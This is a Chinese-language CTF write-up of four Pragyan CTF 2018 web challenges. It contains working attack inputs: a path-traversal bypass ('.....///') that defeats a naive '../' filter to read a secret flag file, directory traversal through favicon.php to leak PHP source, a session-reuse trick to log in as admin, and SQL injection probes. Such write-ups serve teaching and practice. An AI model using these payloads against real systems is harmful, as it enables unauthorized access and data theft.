






# Pragyan CTF 2018 - Notes

## Unfinished business
> Description:
>
> There was a miscellaneous platform being built for various purposes, but it had to be shelved halfway through.
>
> Wanna check it out? Here is the link: http://128.199.224.175:25000/

> Note: Use your Pragyan CTF credentials to log in.



拿自己登入 ctf 平台的帳密登入，並勾選 I'm admin

並且在 chrome 下開 f12 看流量



可以看到admin.php 有 302 跳轉，對他按右鍵複製 cURL 的指令，貼上即可看到 flag



或者也可以直接用 cURL 搭配 cookie 即可
```
curl 'http://128.199.224.175:25000/admin.php' -H 'Cookie: PHPSESSID={REDACTEDREDACTEDREDACTED}'
```

## Authenticate your way to admin
> Description:
>
> Owen had created an authentication system which lets users login with their email-id or their team name. But that’s not fun is it? Logging in as the admin beats it all, so there’s your challenge.

> The portal is running at 128.199.224.175:23000

> Note: Use your Pragyan CTF credentials to login to the web portal.

一開始的登入頁面


有提供 login.php 和 homepage.php

在 homepage.php 中可以看到
```
    if($id === 'admin' && $id_type === 'team_name')
        printf(output_flag());
```

我們必須選擇登入類別是 team_name 且 id是 admin ，但我們不知道 password 是多少

然後看一下 login.php

```
$_SESSION['id'] = $identifier;

if($type === 'team_name') {
    $team_name = $identifier;
    $_SESSION['id_type'] = 'team_name';

    if(verify_teamname_password($team_name, $password) === true) {
        $_SESSION['logged_in'] = true;
        redirect('/homepage.php');
    }
    else {
        die("Invalid Team Name-Password combination !!");
    }
}
```

他並不會把登入資料清掉，所以我們一開始先用自己隊伍登入

之後重新打網址 128.199.224.175:23000 (不是按 logout) 

再登入一次，只是這次 team_name 改成 admin

登入後會報錯，但沒差，改網址為 /homepage.php 即可看到 flag


## El33t Articles Hub
> Description:
>
> Are you a person interested in reading articles on hacking? You’ve come to the right place, check out our brand new website for article-reading enthusiasts.

> The portal is running on 128.199.224.175:22000

一開始畫面


隨意點幾個看網址
```
http://128.199.224.175:22000/?file=Farming%20good%20deeds

http://128.199.224.175:22000/?file=Fear%20the%20fear

http://128.199.224.175:22000/?file=Morning%20Rituals

http://128.199.224.175:22000/?file=Painted%20Nature
```

看一下主頁面的 src code
```
<!DOCTYPE html>
<html>
  <head>
  <link rel='shortcut icon' href='favicon.php?id=4' type='image/x-icon'>
    <meta charset="UTF-8">
    <title>El33t Articles Hub</title>

  <link rel="stylesheet" href="css/bootstrap.min.css">
  <style type="text/css">
      #container {
        background-color: #fcf3cf   ;
        width: 60%;
        border: 1px solid grey;
        padding: 10px;
        margin: auto;
        margin-top: 10px;
        margin-bottom: 30px;
      }

      #container p {
        padding: 10px;
        font-size: 16px;
      }

      #header {
        height: 100px;
        margin: 20px;
        text-align: center;
        font-size: 24px;
      }
      body {
        background-color:  #f9e79f  ;
      }
  </style>
  </head>
  <body>
  <div id='header'>
        <b><u> El33t Articles Hub </u> </b>
  </div>
    <div id='container'>
    <ul><li><h4><a href='?file=Breakfast Tips'> Breakfast Tips </a> </h4></li><li><h4><a href='?file=Farming good deeds'> Farming good deeds </a> </h4></li><li><h4><a href='?file=Fear the fear'> Fear the fear </a> </h4></li><li><h4><a href='?file=Morning Rituals'> Morning Rituals </a> </h4></li><li><h4><a href='?file=Painted Nature'> Painted Nature </a> </h4></li><li><h4><a href='?file=Sportsmanship in real life'> Sportsmanship in real life </a> </h4></li><li><h4><a href='?file=Travel'> Travel </a> </h4></li><li><h4><a href='?file=Wisdom speaks'> Wisdom speaks </a> </h4></li></ul>
    </div>
    <center>
        <p> Copywrite &copy; El33t Articles Hub </p>
    </center>
  </body>
</html>
```

最前面有看到 favicon.php?id=4 ，可以試著目錄穿越
```
$ curl http://128.199.224.175:22000/favicon.php?id=../index 
```


這樣可以看到 index.php 的檔案
```
<!DOCTYPE html>
<html>
  <head>
  <?php
    $favicon_id = mt_rand(1,7);
    echo "<link rel='shortcut icon' href='favicon.php?id=$favicon_id' type='image/x-icon'>";
  ?>
    <meta charset="UTF-8">
    <title>El33t Articles Hub</title>
  <link rel="stylesheet" href="css/bootstrap.min.css">
  <style type="text/css">
      #container {
        background-color: #fcf3cf   ;
        width: 60%;
        border: 1px solid grey;
        padding: 10px;
        margin: auto;
        margin-top: 10px;
        margin-bottom: 30px;
      }
      #container p {
        padding: 10px;
        font-size: 16px;
      }
      #header {
        height: 100px;
        margin: 20px;
        text-align: center;
        font-size: 24px;
      }

      body {
        background-color:  #f9e79f  ;
      }
  </style>

  </head>

  <body>

  <div id='header'>
        <b><u> El33t Articles Hub </u> </b>
  </div>

    <div id='container'>
    <?php
        error_reporting(0);
        require "fetch.php";
        require "helpers.php";

        $filename = !empty($_GET['file']) ? $_GET['file'] : "";

        if($filename !== "") {

            $filename = sanitize($filename);
            $file_contents = read_article($filename);
            echo "<p>";
            echo $file_contents;
            echo "</p>";
        }
        else {
            $files = scandir('./articles');
            echo "<ul>";
            foreach($files as $i) {
                $temp = new SplFileInfo($i);
                $ext = $temp->getExtension();
                if($ext !== "txt")
                    continue;
                $t = explode(".txt", $i)[0];
                echo "<li><h4><a href='?file=$t'> $t </a> </h4></li>";
            }
            echo "</ul>";
        }

    ?>
    </div>
    <center>
        <p> Copywrite &copy; El33t Articles Hub </p>
    </center>
  </body>
</html>
```


看一下 fetch.php
```
<?php


function read_article($filename) {
    $file_content = file_get_contents("./articles/".$filename);

    if($file_content === false)
        article_not_found($filename);
    else
        return $file_content;

}

?>
```

看一下 favicon.php ，有寫一些條件

```
<?php

error_reporting(0);

$fav_id = !empty($_GET['id']) ? $_GET['id'] : '1';

header("Content-Type: image/x-icon");
header("Pragma-directive: no-cache");
header("Cache-directive: no-cache");
header("Cache-control: no-cache");
header("Cache-Control: no-store");
header("Pragma: no-cache");
header("Expires: 0");


$favicon = $fav_id;
$filepath = "./favicons/".$favicon;


if(file_exists($filepath . ".png")) {
    $favicon = $filepath . ".png";
}
else if (file_exists($filepath . ".php")) {
    $favicon = $filepath . ".php";
}
else if (file_exists($filepath . ".ico")) {
    $favicon = $filepath . ".ico";
}
else {
    $err_msg = "No files named '$filepath.png', '$filepath.ico'  or '$filepath.php' found ";
    echo $err_msg;
    die();
}


if(!file_exists($favicon)) {
    echo "File '$filepath' does not exist";
    die();
}

readfile($favicon);
?>
```

看一下 helpers.php

```
<?php
function article_not_found($name) {
    echo "<br><center>";
    echo "File \"$name\" not found !!";
    echo "</center>";
    die();
}
function sanitize($filename) {
    $evil_chars = array("php:", "secret/flag_7258689d608c0e2e6a90c33c44409f9d");
    foreach ($evil_chars as $value) {
        if( strpos($filename, $value) !== false) {
            echo "You naughty cheat !!<br>";
            die();
        }
    }
    // Sanitize input file name
    $bad_chars = array("./", "../");
    foreach ($bad_chars as $value) {
        $filename = str_replace($value, "", $filename);
    }
    $temp = new SplFileInfo($filename);
    $ext = $temp->getExtension();

    if( $ext !== "txt") {
        $filename = $filename.".txt";
    }
    return $filename;
}
?>
```

這裡可以看到有一個 secret/flag_7258689d608c0e2e6a90c33c44409f9d

然後他有對 ./ 和 ../ 作處理，所以要改一下，網址打

```
http://128.199.224.175:22000/?file=.....///secret//flag_7258689d608c0e2e6a90c33c44409f9d
```

可以看到 flag

## Animal attack
> Description:
> 
> Animals have taken over our world and a specific team of animal spies have taken the role of leading the entire army of animals. We humans have formed a group of rebels who have taken it up as a mission to find the main users of the animal spies and find the admin of that group. The admin, with his username and password can launch a powerful attack on the humans. Help the human rebels group get the world back from the animals.

> The portal is available at :- http://128.199.224.175:24000/

[參考](https://ctftime.org/task/5473)

打開頁面是一個可以搜尋的網頁


這裡可以看到第一個的名字是 Alix 

所以先搜尋那邊打: Alix  => 成功

打 ```Alix' and 1 = 1 #``` 也一樣成功

打 ```Alix' and 1 = 2 #``` 沒東西

打 ```Alix' union select * from users``` 爆出偵測到 hacker

可能有對關鍵字作檢測，而這題都不會對輸入作什麼反應

所以是 blind sql injection